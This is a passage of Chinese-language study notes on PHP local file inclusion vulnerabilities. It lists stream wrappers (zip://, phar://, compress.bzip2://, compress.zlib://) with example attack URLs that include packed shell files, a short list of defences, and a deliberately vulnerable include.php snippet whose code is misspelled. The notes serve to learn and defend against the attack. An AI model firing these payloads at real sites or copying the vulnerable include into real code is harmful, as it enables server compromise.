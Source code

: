  ```
- `zip://`

  - 用途:读取压缩包内的文件(绝对/相对路径)如果包含php代码直接执行
  - 使用条件:allow_url_fopen:off   allow_url_include:off
  - 使用方法:zip://archive.zip#dir/file.txt
  - --------zip://[压缩文件绝对/相对路径]#[压缩文件内的子文件名]
  - --------?file=zip://D:/www/file.zip%23phpcode.txt
  - --------?file=zip://D:/www/file.jpg%23phpcode.txt
  - http://192.168.1.1/include.php?file=zip://shell.zip%23shell.txt

![image-20240908172813959](学习/笔记/assets/image-20240908172813959.png)

- `phar://`

  - 用途:读取压缩文件内的文件(相对/绝对路径)
  - 使用条件:allow_url_fopen:off     allow_url_include:off
  - 使用方法:?file=phar://D:/phpstudy/www/fileinclude/test.zip/phpinfo.txt
  - --------?file=phar://test.zip/phpinfo.txt
  - http://192.168.1.1/include.php?file=phar://shell.zip/shell.txt

  ![image-20240908172948858](./assets/image-20240908172948858.png)

- `compress.bzip2://`

  - 用途:读取压缩包内的文件(相对/绝对路径)	
  - 使用条件:allow_url_fopen:off    allow_url_include:off
  - 使用方法:?file=compress.bzip2://shell.txt.bz2
  - Bzip2 -k shell.txt
  - http://192.168.1.1/include.php?file=compress.bzip2://shell.txt.bz2

- `compress.zlip://`

  - 用途:读取压缩包内的文件(相对/绝对)
  - 使用条件:allow_url_fopen:off    allow_url_include:off
  - 使用方法:?file=compress.zlib://shell.zip#shell.txt
  - http://192.168.1.1/include.php?file=compress.zlib://shell.zip#shell.txt

- 其它

- ![image-20240907165822662](assets/image-20240907165822662-1725856531151-7.png)

------

#### 文件包含漏洞防御

- 1.严格判断包含中的参数是否外部可控
- 2.路径限制
- 3.包含文件验证
- 4.尽量不要使用`动态包含`,可以在需要包含的页面固定写好
- 5.php中可以使用`open_basedir`配置限制访问
- 6.过滤`.`,`/`,`/`等
- 7.禁止服务器远程文件包含

------

#### 本地文件包含演示

```php
//示例代码include.php
<?
$cover=$_GET['action'];
includ $cover;
?>
  ```